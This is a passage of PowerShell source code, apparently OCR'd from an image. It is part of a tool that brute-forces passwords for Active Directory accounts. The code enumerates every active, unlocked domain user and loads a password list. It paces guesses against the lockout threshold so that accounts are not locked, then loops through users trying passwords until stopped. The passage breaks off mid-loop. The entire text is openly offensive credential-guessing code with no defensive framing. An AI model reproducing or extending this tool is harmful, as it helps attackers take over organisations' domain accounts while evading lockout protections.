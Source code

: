 ```powershell
        $data = Get-Content $file
        
        If ($data -eq $null -or $data -eq "") {Return $null}
        $passwords = $data.Split(",").Trim()
        Return $passwords
   }
   Else {Return $null}
}

# Main function to perform the actual brute force attack
Function BruteForce
{
   Param ([Int]$duration,[Int]$threshold,[String[]]$passwords)

   #Setup variables
   $userObj = Get-UserObjects
   Write-Verbose "Found $(($userObj).count) active & unlocked users..."
   
   If ($passwords.Length -gt $threshold)
   {
        $time = ($passwords.Length - $threshold) * $duration
        Write-Host "Total run time is expected to be around $([Math]::Floor($time / 60)) hours and $([Math]::Floor($time % 60)) minutes."
   }

   [Boolean[]]$done = @()
   [Boolean[]]$usersCracked = @()
   [Int[]]$numTry = @()
   $results = @()

   #Initialize arrays
   For ($i = 0; $i -lt $userObj.Length; $i += 1)
   {
        $done += $false
        $usersCracked += $false
        $numTry += 0
   }

   # Main while loop which does the actual brute force.
   Write-Host "Performing brute force - press [q] to stop the process and print results..." -BackgroundColor Yellow -ForegroundColor Black
   :Main While ($true)
   {
        # Get user accounts
        $userObj = Get-UserObjects
        
        # Iterate over every user in AD
        For ($i = 0; $i -lt $userObj.Length; $i += 1)
        {

            # Allow for manual stop of the while loop, while retaining the gathered results
            If ($Host.UI.RawUI.KeyAvailable -and ("q" -eq $Host.UI.RawUI.ReadKey("IncludeKeyUp,NoEcho").Character))
            {
                Write-Host "Stopping bruteforce now...." -Background DarkRed
                Break Main
            }

            If ($usersCracked[$i] -eq $false)
            {
                If ($done[$i] -eq $false)
                {
                    # Put object values into variables
```